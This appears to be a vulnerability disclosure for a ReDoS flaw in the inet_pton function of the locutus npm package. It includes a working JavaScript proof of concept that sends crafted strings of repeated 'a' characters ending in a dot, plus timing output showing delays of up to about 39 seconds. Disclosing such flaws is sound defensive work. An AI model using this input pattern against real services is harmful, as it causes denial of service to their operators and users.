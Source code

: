 # Description

`locutus` is vulnerable to `ReDoS`. The regular expression at src/php/network/inet_pton.js:24 is vulnerable to ReDoS. It is possible to cause increasing slow-downs which lock the event loop by passing strings which have some number of repeating a characters followed by a . character. For example: aaaaaaaaaaaa.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
const inet_pton = require('locutus/php/network/inet_pton');
console.log('starting')
for (let i=4; i < 40; i++)
{
    const str = new Array(i).fill('a').join('') + '.';
    const start = + new Date();

    inet_pton(str);

    const elapsed = (+ new Date()) - start;
   
    console.log('i=' + i + ' elapsed (seconds): ' + elapsed / 1000);
}
```

2. Execute the following commands in another terminal:

```bash
npm i locutus # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
starting                       
i=4 elapsed (seconds): 0
i=5 elapsed (seconds): 0
i=6 elapsed (seconds): 0
i=7 elapsed (seconds): 0                   
i=8 elapsed (seconds): 0
i=9 elapsed (seconds): 0                                            
i=10 elapsed (seconds): 0.001
i=11 elapsed (seconds): 0                                           
i=12 elapsed (seconds): 0                                                                                                                             
i=13 elapsed (seconds): 0
i=14 elapsed (seconds): 0                             
i=15 elapsed (seconds): 0.002                                       
i=16 elapsed (seconds): 0.003                                                                                                                         
i=17 elapsed (seconds): 0.006
i=18 elapsed (seconds): 0.01
i=19 elapsed (seconds): 0.018
i=20 elapsed (seconds): 0.031
i=21 elapsed (seconds): 0.054
i=22 elapsed (seconds): 0.094
i=23 elapsed (seconds): 0.158
i=24 elapsed (seconds): 0.266
i=25 elapsed (seconds): 0.439
i=26 elapsed (seconds): 0.714
i=27 elapsed (seconds): 1.132
i=28 elapsed (seconds): 1.757
i=29 elapsed (seconds): 2.713
i=30 elapsed (seconds): 3.976
i=31 elapsed (seconds): 5.761
i=32 elapsed (seconds): 7.99
i=33 elapsed (seconds): 10.899
i=34 elapsed (seconds): 14.411
i=35 elapsed (seconds): 18.608
i=36 elapsed (seconds): 23.983
i=37 elapsed (seconds): 28.913
i=38 elapsed (seconds): 34.088
i=39 elapsed (seconds): 38.999
```
